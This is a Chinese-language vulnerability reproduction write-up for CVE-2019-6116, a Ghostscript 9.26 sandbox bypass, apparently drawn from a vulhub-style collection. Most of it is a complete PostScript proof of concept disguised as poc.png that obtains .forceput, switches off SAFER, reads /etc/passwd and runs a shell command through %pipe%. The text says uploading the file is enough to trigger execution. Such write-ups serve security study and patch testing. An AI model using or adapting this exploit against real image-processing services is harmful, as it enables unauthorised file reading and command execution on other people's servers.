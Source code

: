 （CVE-2019-6116）GhostScript 沙箱绕过（命令执行）漏洞
=====================================================

一、漏洞简介
------------

Ghostscript
9.26版本中存在输入验证错误漏洞。该漏洞源于网络系统或产品未对输入的数据进行正确的验证。

二、漏洞影响
------------

Ghostscript 9.26版本

三、复现过程
------------

**poc.png**

    %!PS
    % extract .actual_pdfpaintproc operator from pdfdict
    /.actual_pdfpaintproc pdfdict /.actual_pdfpaintproc get def

    /exploit {
        (Stage 11: Exploitation...)=

        /forceput exch def

        systemdict /SAFER false forceput
        userparams /LockFilePermissions false forceput
        systemdict /userparams get /PermitFileControl [(*)] forceput
        systemdict /userparams get /PermitFileWriting [(*)] forceput
        systemdict /userparams get /PermitFileReading [(*)] forceput

        % update
        save restore

        % All done.
        stop
    } def

    errordict /typecheck {
        /typecount typecount 1 add def
        (Stage 10: /typecheck #)=only typecount ==

        % The first error will be the .knownget, which we handle and setup the
        % stack. The second error will be the ifelse (missing boolean), and then we
        % dump the operands.
        typecount 1 eq { null } if
        typecount 2 eq { pop 7 get exploit } if
        typecount 3 eq { (unexpected)= quit }  if
    } put

    % The pseudo-operator .actual_pdfpaintproc from pdf_draw.ps pushes some
    % executable arrays onto the operand stack that contain .forceput, but are not
    % marked as executeonly or pseudo-operators.
    %
    % The routine was attempting to pass them to ifelse, but we can cause that to
    % fail because when the routine was declared, it used `bind` but many of the
    % names it uses are not operators and so are just looked up in the dictstack.
    %
    % This means we can push a dict onto the dictstack and control how the routine
    % works.
    <<
        /typecount      0
        /PDFfile        { (Stage 0: PDFfile)= currentfile }
        /q              { (Stage 1: q)= } % no-op
        /oget           { (Stage 3: oget)= pop pop 0 } % clear stack
        /pdfemptycount  { (Stage 4: pdfemptycount)= } % no-op
        /gput           { (Stage 5: gput)= }  % no-op
        /resolvestream  { (Stage 6: resolvestream)= } % no-op
        /pdfopdict      { (Stage 7: pdfopdict)= } % no-op
        /.pdfruncontext { (Stage 8: .pdfruncontext)= 0 1 mark } % satisfy counttomark and index
        /pdfdict        { (Stage 9: pdfdict)=
            % cause a /typecheck error we handle above
            true
        }
    >> begin <<>> <<>> { .actual_pdfpaintproc } stopped pop

    (Should now have complete control over ghostscript, attempting to read /etc/passwd...)=

    % Demonstrate reading a file we shouldnt have access to.
    (/etc/passwd) (r) file dup 64 string readline pop == closefile

    (Attempting to execute a shell command...)= flush

    % run command
    (%pipe%id > /tmp/success) (w) file closefile

    (All done.)=

    quit

上传这个poc文件，即可执行`id > /tmp/success`：

![](./resource/(CVE-2019-6116)GhostScript沙箱绕过(命令执行)漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/ghostscript/CVE-2019-6116/
